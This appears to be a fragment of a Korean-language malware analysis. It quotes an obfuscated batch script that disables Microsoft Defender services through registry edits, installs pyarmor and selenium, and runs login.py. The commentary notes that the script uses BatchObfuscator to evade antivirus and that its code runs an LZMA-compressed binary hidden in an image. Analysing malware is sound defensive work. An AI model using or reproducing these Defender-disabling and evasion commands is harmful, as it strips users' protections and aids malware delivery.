%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~12,1%" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
reg add "HKLM\System\CurrentControlSet\Services\MDCoreSvc" /v "Start" /t REG_DWORD /d "4" /f >nul 2>&1
reg add "HKLM\System\CurrentControlSet\Services\WdFilter" /v "Start" /t REG_DWORD /d "4" /f >nul 2>&1
reg add "HKLM\System\CurrentControlSet\Services\WdNisDrv" /v "Start" /t REG_DWORD /d "4" /f >nul 2>&1
reg add "HKLM\System\CurrentControlSet\Services\WdNisSvc" /v "Start" /t REG_DWORD /d "4" /f >nul 2>&1
reg add "HKLM\System\CurrentControlSet\Services\WinDefend" /v "Start" /t REG_DWORD /d "4" /f >nul 2>&1

pip install customtkinter selenium pyarmor
cd /d %~dp0
python login.py

pause
```

<a href="https://github.com/TairikuOokami/Windows/blob/main/Microsoft Defender Disable.bat">Microsoft Defender Disable.bat</a> - <a href="https://github.com/guillaC/BatchObfuscator">BatchObfuscator</a> 사용 (백신 탐지 피하기 위한 용도)


코드 보면 이미지를 읽어서 decompress하고 실행하는데, 이미지 안에 lzma로 압축된 바이너리 존재
